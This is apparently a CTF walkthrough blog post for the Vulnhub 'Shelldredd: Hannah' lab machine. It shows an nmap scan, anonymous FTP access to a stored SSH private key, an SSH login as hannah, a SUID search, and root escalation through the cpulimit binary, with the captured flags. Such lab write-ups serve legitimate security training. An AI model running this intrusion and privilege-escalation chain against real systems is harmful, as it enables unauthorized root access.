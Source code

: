 ```yaml
---
title: "Shelldredd: Hannah Vulnhub CTF Walkthrough"
---
```

The vulnhub virtual machine can be found [here](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)
nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/credit-card-scammers]
└─$ nmap -p- -sV 192.168.56.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:27 EDT
Nmap scan report for 192.168.56.110
Host is up (0.0027s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
{% endhighlight %}

Logging into the FTP service anonymously and snooping around:

{% highlight terminal %}
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> 
{% endhighlight %}

We've been given a private key. let's use that to log into the ssh server
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ chmod 700 id_rsa                                                           130 ⨯
                                                                                     
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ ssh hannah@192.168.56.110 -i id_rsa -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  5 09:20:42 2020 from 192.168.1.140
hannah@ShellDredd:~$
{% endhighlight %}

I'm in. lets take a look around for flags and test for a few low hanging fruit. 

first flag: 
{% highlight terminal %}
hannah@ShellDredd:~$ cat user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
{% endhighlight %}


{% highlight terminal %}
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
{% endhighlight %}


Here we can exploit the SUID binary [cpulimit](https://gtfobins.github.io/gtfobins/cpulimit/). 

{% highlight terminal %}
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 823 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# whoami
root
# cd
# ls
user.txt
# cd ../../root
# ls
root.txt
# cat root.txt
yeZCB44MPH2KQwbssgTQ2Nof
# 
{% endhighlight %}
